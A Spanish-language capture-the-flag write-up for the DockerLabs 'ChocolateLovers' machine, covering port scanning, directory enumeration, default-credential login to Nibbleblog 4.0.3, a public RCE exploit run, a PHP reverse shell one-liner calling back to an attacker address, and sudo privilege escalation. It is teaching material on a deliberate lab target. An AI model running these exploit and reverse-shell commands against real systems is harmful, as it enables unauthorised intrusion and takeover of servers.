








# 🧠 Informe de Pentesting – Máquina: ChocolateLovers

### 💡 Dificultad: Fácil

📦 Plataforma: DockerLabs


---

# 🚀 Despliegue de la Máquina

Para iniciar la máquina vulnerable, primero descomprimimos el archivo proporcionado y posteriormente ejecutamos el script de despliegue:

```bash
unzip chocolatelovers.zip
sudo bash auto_deploy.sh chocolatelovers.tar
```


---

# 📶 Comprobación de Conectividad

Una vez desplegada la máquina, verificamos que el objetivo se encuentre activo y responda correctamente a peticiones ICMP:

```bash
ping -c1 172.17.0.2
```

Si la máquina responde correctamente, confirmamos conectividad con el objetivo y continuamos con la fase de reconocimiento.

---

# 🔍 Escaneo de Puertos

## 🔎 Escaneo Completo de Puertos

Realizamos un escaneo completo sobre todos los puertos TCP para identificar los servicios expuestos por la máquina víctima:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

### 📌 Puertos Abiertos Detectados

| Puerto | Servicio |
| ------ | -------- |
| 80/tcp | HTTP     |

---

# 🧩 Enumeración de Servicios y Versiones

Una vez identificados los puertos abiertos, procedemos a enumerar servicios, versiones y configuraciones utilizando los scripts por defecto de Nmap:

```bash
nmap -sCV -p80 172.17.0.2
```


El escaneo confirma que el puerto `80` aloja un servicio web basado en Apache.

---

# 🖥️ Acceso Inicial a la Aplicación Web

Accedemos al servicio web desde el navegador:

```bash
http://172.17.0.2
```

La página carga correctamente y muestra la página por defecto de Apache.


---

# 📂 Enumeración Web

Se realizaron pruebas de enumeración de subdominios virtuales y directorios ocultos utilizando `gobuster`, aunque inicialmente no se obtuvieron resultados relevantes:

## 🔎 Enumeración de Virtual Hosts

```bash
gobuster vhost --append-domain -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -k
```

## 🔎 Enumeración de Directorios

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 301
```

---

# 🔍 Revisión del Código Fuente

Durante la inspección manual del código fuente de la página principal, encontramos una ruta interesante:

```text
/nibbleblog
```



Accedemos al directorio descubierto:

```bash
http://172.17.0.2/nibbleblog/
```

La página corresponde a una instalación de **Nibbleblog**, un CMS ligero desarrollado en PHP utilizado para la gestión de blogs.



---

# 🔐 Acceso al Panel Administrativo

Navegando por el sitio encontramos un formulario de autenticación correspondiente al panel administrativo.



Probamos credenciales por defecto y logramos autenticarnos exitosamente:

```text
admin : admin
```

---

# 🧾 Identificación de la Versión

Una vez dentro del panel administrativo, identificamos la versión exacta de la aplicación:



La aplicación ejecuta una versión vulnerable de **Nibbleblog 4.0.3**, la cual posee vulnerabilidades conocidas de ejecución remota de comandos (RCE).

---

# 💣 Explotación de la Vulnerabilidad

Buscando exploits públicos en GitHub encontramos un script en Python diseñado específicamente para explotar la vulnerabilidad presente en Nibbleblog 4.0.3.

Ejecutamos el exploit de la siguiente manera:

```bash
python3 nibbleblog_4.0.3.py -t 'http://172.17.0.2/nibbleblog/admin.php' -u admin -p admin -rce whoami
```

Inicialmente el exploit generó un error relacionado con plugins faltantes.



Para solucionarlo, desde el panel administrativo instalamos y habilitamos el plugin requerido. Posteriormente volvimos a ejecutar el exploit, logrando esta vez la ejecución correcta de comandos remotos.

---

# 🖥️ Obtención de Shell Interactiva

El exploit también permite obtener una shell interactiva sobre la máquina víctima:

```bash
python3 nibbleblog_4.0.3.py -t http://172.17.0.2/nibbleblog/admin.php -u admin -p admin -shell
```



Con esto confirmamos ejecución remota de comandos sobre el servidor.

---

# 📡 Reverse Shell

Para obtener una shell más estable, colocamos nuestra máquina atacante en modo escucha utilizando Netcat:

```bash
sudo nc -lvnp 4445
```

Posteriormente ejecutamos una reverse shell desde la máquina comprometida:

```bash
echo "" | sudo -S -u chocolate /usr/bin/php -r '$sock=fsockopen("192.168.0.105",4445);exec("/bin/sh -i <&3 >&3 2>&3");'
```



Tras ejecutar el comando, recibimos una conexión reversa satisfactoria en nuestra máquina atacante.

---

# ⬆️ Escalada de Privilegios

Una vez dentro del sistema, procedimos a enumerar privilegios y configuraciones inseguras.

Durante la revisión de permisos `sudo`, identificamos que el usuario comprometido podía ejecutar determinados comandos sin necesidad de contraseña. Esto permitió aprovechar una mala configuración del sistema para elevar privilegios.

## 🔎 Enumeración de Privilegios

```bash
sudo -l
```

El resultado mostraba permisos inseguros asociados al usuario `chocolate`.

Aprovechando esta configuración, utilizamos un binario permitido por `sudo` para ejecutar comandos con privilegios elevados y obtener acceso como `root`.



---

# 👑 Acceso Root

Finalmente logramos comprometer completamente la máquina obteniendo una shell con privilegios de administrador (`root`).

Con esto concluimos exitosamente el laboratorio **ChocolateLovers**.

---
